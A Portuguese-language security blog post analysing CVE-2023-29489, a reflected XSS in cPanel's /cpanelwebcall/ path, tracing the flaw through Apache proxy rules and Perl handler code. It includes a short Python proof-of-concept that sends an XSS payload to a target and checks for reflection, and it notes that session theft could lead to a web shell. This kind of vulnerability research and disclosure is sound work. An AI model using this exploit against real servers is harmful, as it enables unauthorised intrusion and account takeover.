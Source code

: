 ```yaml
---
layout: post
title:  "Análise da CVE-2023-29489: XSS refletido no cPanel"
date:   2024-05-14
---
```


A CVE-2023-29489[1] trata-se de uma vulnerabilidade de Cross-Site Scripting (XSS)[2] refletido identificada no software de painel de controle de hospedagem cPanel[3], amplamente utilizado na web. A vulnerabilidade XSS permite que um atacante execute scripts maliciosos em uma página que está sendo acessada por outros usuários. O atacante não precisa estar autenticado.

Essa vulnerabilidade foi identificada em 26 de abril de 2023 pela equipe de segurança da Assetnote[4], uma empresa de segurança da Austrália. A vulnerabilidade impacta versões do cPanel anteriores a 11.109.9999.116 e foi corrigida nas versões 11.109.9999.116, 11.108.0.13, 11.106.0.18 e 11.102.0.31 ou em versões posteriores.

Essa publicação está disponível também em: [Inglês](https://blog.lesis.lat/blog/2024-09-10-CVE-2023-29489-EN/)

---

### Descrição

O cPanel é um software feito em Perl[5] com binários gerados a partir do código Perl. Baseado nos binários que podem ser acessados no diretório **/cgi-sys/** nas portas de gerenciamento, nota-se a existência de binários que eram códigos Perl e que são chamados remotamente por meio de solicitações HTTP.

Além dos binários dentro de **/cgi-sys/**, algumas funcionalidades e aplicativos da web do cPanel são atendidos por meio do binário cpsrvd. O binário cpsrvd é executado por padrão nas portas: 2082, 2083, 2086, 2087. Para isso, o cPanel utiliza as funcionalidades de proxy reverso do Apache[6] e a configuração para isso é encontrada em **/etc/apache2/conf/httpd/conf/**. Essas configurações de proxying e aliasse de scripts definem áreas potencialmente interessantes para ataques:

```
ProxyPass /cpanelwebcall/ http://127.0.0.1:2082/cpanelwebcall/ max=1 retry=0

... omitted for brevity ...

ScriptAlias /.cpanel/dcv /usr/local/cpanel/cgi-priv/get_local.cgi

RewriteEngine On

RewriteCond %{REQUEST_URI} ^/\.well-known/acme-challenge/[0-9a-zA-Z_-]+$ [OR]
RewriteCond %{REQUEST_URI} ^/\.well-known/cpanel-dcv/[0-9a-zA-Z_-]+$ [OR]
RewriteCond %{REQUEST_URI} ^/\.well-known/pki-validation/[A-F0-9]{32}\.txt(?:\ Sectigo\ DCV)?$ [OR]
RewriteCond %{REQUEST_URI} ^/\.well-known/pki-validation/(?:\ Ballot169)?
RewriteRule ^ /.cpanel/dcv [passthrough]
```

O arquivo **Cpanel/Server/Handlers/Httpd.pm** possui uma lógica especifica referente a manipulação de caminhos. Isso permitiu que fossem mapeadas as superfícies de ataques. Dentro do httpd.pm existe um trecho de código que roteia todas as solicitações de um caminho que comece por **/panelwebcall** para uma função chamada **_server_cpanelwebcall** que por sua vez chama outra função, chamada **Chanel::Server::WebCalls::handle** com uma parte da URL como argumento:

```perl
elsif ( 0 == rindex( $doc_path, '/cpanelwebcall/', 0 ) ) {
        # First 15 chars are “/cpanelwebcall/”
        _serve_cpanelwebcall(
            $self->get_server_obj(),
            substr( $doc_path, 15 ),
        );
    }
```


A função **_serve_cpanelwebcall** se parece com isso:

```perl
sub _serve_cpanelwebcall ( $server_obj, $webcall_uri_piece ) {
    require Cpanel::Server::WebCalls;
    my $out = Cpanel::Server::WebCalls::handle($webcall_uri_piece);

    $server_obj->respond_200_ok_text($out);

    return;
}
```


Que nos leva para a função **Chanel::Server::WebCalls::handle**:

```perl
sub handle ($request) {

    my $id = extract_id_from_request($request);
    substr( $request, 0, length $id ) = q<>;

    Cpanel::WebCalls::ID::is_valid($id) or do {
        die _http_invalid_params_err("Invalid webcall ID: $id");
    };
```

A função handle extrai um ID da solicitação e em seguida modifica a solicitação, removendo o ID. Se o ID não for válido, ele gera um erro indicando a solicitação inválida. Quando o erro acontece, a função **_httpd_invalid_params_err** é chamada, onde essa função cria uma exceção chamada **cpsrvd::BadRequest** que leva até o módulo **Cpanel::Server::Handlers::ErrorPage**. Dentro desse módulo existe uma variável chamada **message_html**. A vulnerabilidade está nessa variável, pois ela não está sanitizando a mensagem de erro ao inserir o ID inválido.

---

### Prova de Conceito

Exploit:

```python
#!/usr/bin/env python3
import requests
import argparse
import re

def exploit(target):
    payload = "<img%20src=x%20onerror='alert(1)'>foo"
    if not re.match(r'^https?://', target):
        target = f"https://{target}"

    try:
        response = requests.get(f"{target}/cpanelwebcall/{payload}")
        if payload in response.text:
            return f"The payload [{payload}] worked!"
        else:
            return f"The target [{target}] is not vulnerable."
    except requests.exceptions.RequestException as e:
            return(f"Error making request for {target} -> {e}")

def main():
    parser = argparse.ArgumentParser(description="CVE-2023-29489 | XSS in cPanel")
    parser.add_argument("-t", "--target", required=True)
    args = parser.parse_args()

    try:
        print(exploit(args.target))
    except KeyboardInterrupt:
         exit(1)
    except EOFError:
         exit(1)
if __name__ == '__main__':
    main()
```


---

### Impacto

O impacto dessa vulnerabilidade permite que um invasor execute códigos JavaScript arbitrários, sem estar autenticado, em quase todas as portas de um servidor web que utiliza o cPanel.  Isso ocorre devido as regras de proxy, onde é possível através das portas 80 e 443 acessar o diretório /cpanel/, pois estará sendo redirecionado para as portas de gerenciamento do cPanel pelo Apache.

O fato das portas de gerenciamento do cPanel serem vulneráveis a XSS permite que um atacante roube a sessão de um usuário legítimo, uma vez agindo como um usuário autenticado, é possível fazer upload de uma web shell[7] e obter a execução remota de comandos no servidor.

A vulnerabilidade apresenta uma ameaça significava a segurança da aplicação e é altamente recomendado que os administradores de sistemas atualizem para a versão mais recente.

---

### Conclusão

A versão cPanel aqui discutida, tem uma superfície vulnerável, onde essa vulnerabilidade permite que o atacante execute scripts maliciosos em páginas acessadas pelos usuários comuns, onde o atacante não precisa estar autenticado para explorá-la. A vulnerabilidade é explorável independente da porta do cPanel (2080, 2082, 2083, 2086) estar exposta externamente ou não.   

A exploração dessa vulnerabilidade pode resultar na execução de códigos JavaScript arbitrário em praticamente todas as portas de um servidor web que utilize o cPanel. Isso ocorre devido as regras de proxy que permitem o acesso ao diretório **/cpanel/** mesmo nas portas 80 e 443, redirecionando as solicitações para as portas de gerenciamento do cPanel devido os proxys do Apache.

A vulnerabilidade foi corrigida com patches disponíveis nas versões posteriores ao cPanel 11.109.9999.116. É fundamental que os administradores de sistemas atualizem seus sistemas para a versão mais recente do cPanel e implementem as correções disponíveis para mitigar as ameaças.

---

### Autor

**Lucas Katashi**, atualmente trabalha como pentester e é apaixonado por Red-Team, gosta de codificar ferramentas e o Burp Suite é seu melhor amigo.

---

### Referências

* [1] [MITRE - CVE-2023-29489](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-29489)
* [2] [PortSwigger - Cross-site Scripting](https://portswigger.net/web-security/cross-site-scripting)
* [3] [Hostinger - Domine o cPanel: Prós, Contras e Como Usar](https://www.hostinger.com.br/tutoriais/cpanel-o-que-e-painel-de-hospedagem)
* [4] [Assetnote - Finding XSS in a million websites (cPanel CVE-2023-29489)](https://www.assetnote.io/resources/research/finding-xss-in-a-million-websites-cpanel-cve-2023-29489)
* [5] [Perl - Flexible & Powerful](https://www.perl.org)
* [6] [Apache - Software for the public good](https://www.apache.org)
* [7] [Wikipedia - Web Shell](https://en.wikipedia.org/wiki/Web_shell)
